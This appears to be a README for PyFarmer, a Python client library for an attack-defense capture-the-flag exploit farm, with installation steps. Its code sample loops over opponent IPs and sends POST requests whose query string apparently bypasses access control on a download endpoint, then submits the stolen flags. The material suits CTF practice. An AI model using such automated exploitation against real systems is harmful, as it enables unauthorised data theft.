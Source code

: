 # PyFarmer

## Introduction

> A farmer for your [Destructive Farm](https://github.com/DestructiveVoice/DestructiveFarm)
>
> <img src="https://i.kym-cdn.com/entries/icons/original/000/028/021/work.jpg" style="zoom: 50%;" />

## Code Samples

> ```python
> import requests
> from pyfarmer import farm, submit_flag, get_ids, print_exception
> 
> 
> def main(ip: str) -> None:
>     for flag_id in get_ids("http://10.10.0.1:8081/flagIds", "Trademark"):
>         try:
>             r = requests.post(
>                 f"http://{ip}:5000/api/products/{flag_id}/download?a=/api/register"
>             )
>             submit_flag(r.text)
>         except:
>             print_exception()
> 
> 
> if __name__ == "__main__":
>     farm(main, __file__)
> ```
>

## Installation

> Install locally with:
>
> ```bash
> pip install pyfarmer
> ```